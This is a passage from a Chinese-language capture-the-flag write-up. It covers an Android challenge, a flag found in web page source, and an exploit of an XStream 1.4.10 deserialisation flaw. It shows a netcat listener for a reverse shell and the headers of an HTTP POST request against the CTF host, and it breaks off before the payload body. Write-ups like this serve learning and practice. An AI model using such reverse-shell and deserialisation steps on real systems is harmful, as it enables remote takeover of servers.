 现象是先从attackapp跳转到对应的目标Activity，按back返回后，回到attackapp，同时Toast打印了flag文件里的内容。

## Web

### web-1 聊天室

> 为什么live2d展示不出来。。。

直接翻源码，找到flag

![flag_in_source](./web-1-1.png)

### web-2 风险组件

放出了hint，提到xStream组件。发现版本是1.4.10，洞洞很多。但是试了好久都没成功。最后终于发现，反弹shell写错了。。。

基本上都是利用xStream在发序列化xml时候的漏洞。。。

先在自己服务器上nc监听一个端口

```text
nc -lvvp 8212
```

然后构造一个POC，提交。

```http request
POST /login HTTP/2
Host: vul-xs-ctf.dun.mi.com
Cookie: MIDUN-Cookie
Content-Length: 630
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Accept: application/json, text/plain, */*
Content-Type: application/xml
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Origin: https://vul-xs-ctf.dun.mi.com
Sec-Fetch-Site: same-origin
```